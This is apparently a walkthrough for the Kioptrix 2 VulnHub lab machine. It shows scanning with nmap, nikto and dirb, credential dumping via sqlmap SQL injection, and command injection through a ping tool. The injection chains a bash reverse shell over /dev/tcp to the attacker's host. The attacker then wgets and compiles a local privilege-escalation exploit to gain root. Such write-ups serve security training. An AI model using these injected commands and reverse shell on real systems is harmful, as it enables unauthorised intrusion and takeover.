




### target:		kioptrix2 by Kioptrix Team 

### hosted by:		vulnhub.com

### virtualization:	virtualbox

### testing platform:	kali linux 2017

### walkthrough by:	worzel_gummidge


**nmap** is used to aquire the IP of the target and to perform port and os fingerprinting scans.

```bash
nmap 192.168.56.103 -T5 -n -A -sC -p0-65535
```


7 open ports are discovered through the scan: tcp22(ssh), tcp80(http), tcp111(rpcbind), tcp143(https), tcp631(ipp), tcp650(rpc, )tcp3306(mysql)

**nikto** and **dirb** are used to probe all *http* ports further.

```bash
nikto -h 192.168.56.103
```

```bash
dirb http://192.168.56.103 /usr/share/dirb/wordlists/big.txt
```


on browsing the website hosted on the machine, the attacker is served with a login form.

using **burp** to intercept the request and capture it, attacker uses **sqlmap** to look for *sql injection* vulnerabilities. the *"username"* field is vulnerable and **sqlmap** is able to exploit it to get login credentials of the main page.



```bash
sqlmap -r sqlkiop.txt --level 5 --risk 3 --dump-all
```


the attacker uses admin credentials to login. he/she is granted with access to a ping tool. by chaining the ping command with another linux command, the attacker is able to expose a command execution vulnerability in the web application.



By setting up a listener through **netcat** and chaining a reverse bash command to the ping command, the attacker is able to spwan a reverse shell with low priviledges.

```bash
nc -lvp 443
```

```bash
192.168.56.103; bash -i >& /dev/tcp/192.168.56.101/443 0>&1
```





**searchsploit** is used to search for suitable priviledge escalation exploits. once the attacker identifies an exploit, he/she uses **wget** to download the exploit from his/her local machine to the target server add it is compiled using **gcc** and run.

```bash
cd /tmp; wget 192.168.56.101/9545.c
gcc -Wall -o 9545 9545.c
```


the attacker has root.


